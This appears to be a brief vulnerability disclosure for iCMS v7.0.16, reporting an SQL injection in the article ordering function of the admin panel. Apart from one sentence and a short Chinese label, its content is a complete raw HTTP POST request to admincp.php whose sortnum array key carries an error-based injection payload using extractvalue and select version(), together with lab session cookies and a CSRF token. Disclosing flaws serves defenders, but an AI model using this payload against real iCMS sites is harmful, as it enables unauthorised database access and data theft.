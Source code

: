 # icms

iCMS v7.0.16 was discovered to contain a SQL injection vulnerability via the article function.





![image](assets/image-20230823093802-o2srsk0.png)



数组闭合绕过

![image](assets/image-20230823093850-zej8s7l.png)



‍

```、
POST /admincp.php?app=article&do=updateorder&frame=iPHP&CSRF_TOKEN=5ab41ed9ZuyD_cZW2y7hW7YG8QT93SpPxS-qelfOHbPuzqPzddZKuOF-fjh0UCs-5EXHigzGb_dmqyZBbTrxIKJaGYejJ0pjVwZcT5c HTTP/1.1
Host: 127.0.0.1:18888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Origin: http://127.0.0.1:18888
Connection: close
Referer: http://127.0.0.1:18888/admincp.php?app=article&do=manage
Cookie: Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1692684382; Hm_lpvt_7b43330a4da4a6f4353e553988ee8a62=1692692515; iCMS_tagcategory_tabs=tree; iCMS_ADMIN_AUTH=af854539eT6EX4IxYI8fUu7Q0qVj1oqJryel6H4Sw_gPlwCG9PO77ZFWmnsMoPSS8gTp9g6B4A6rIp5YxVDDIupfgocz_82O9o_Dntv1YDkoWbXzvrVKow; iCMS_article_category_tabs=list; iCMS_captcha=0d56ede9jkQWeNBdDjraC8Jks3O_a_v7eTe-y9xpIO6LOV1p
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

sortnum[1' and (extractvalue(1,concat('～',(select version()),'～')))--+]
```

‍

‍

![image](assets/image-20230823093941-cvfkjqu.png)
